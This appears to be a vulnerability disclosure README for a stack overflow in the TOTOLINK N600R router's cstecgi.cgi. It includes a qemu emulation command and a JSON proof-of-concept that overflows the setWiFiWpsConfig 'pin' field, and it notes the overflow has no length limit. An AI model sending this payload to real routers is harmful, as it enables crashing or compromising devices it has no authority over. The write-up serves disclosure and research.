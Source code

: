 # TOTLINK-N600R-setWiFiWpsConfig-StackOverflow

﻿During my internship at Qi An Xin Tiangong Lab, I discovered a StackOverflow vulnerability in the TOTOLINK-N600R router.

By analyzing the cstecgi.cgi file in the cgi-bin directory, I found that the function at address 0x41CAF4 contains a stack overflow vulnerability.

The stack overflow can be triggered by the pin key value, which leads to a sprintf overflow.

## How can we simulate a router

﻿Use the following command to simulate with qemu.

```bash
sudo chroot . ./qemu-mips-static -E CONTENT_LENGTH=300 -E QUERY_STRING="action=no" -L /lib ./web_cste/cgi-bin/cstecgi_patch.cgi < ./poc.json
```

﻿The content of the **poc.json** file is as follows:

```json
{"topicurl":"setWiFiWpsConfig","wscMode":"1","wscPinMode":"1","pin":"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"}
```

## Attack result

![image-20241216160513615](https://gitee.com/xyqer/pic/raw/master/202412191516192.png)

![image-20241216160521569](https://gitee.com/xyqer/pic/raw/master/202412191516001.png)

﻿You can see that the stack length is only 0xD0, but we overflowed to 0xE8. If needed, we can overflow more. This overflow does not have a length limit. When using a longer overflow, you only need to modify the pin key value and the CONTENT_LENGTH size.
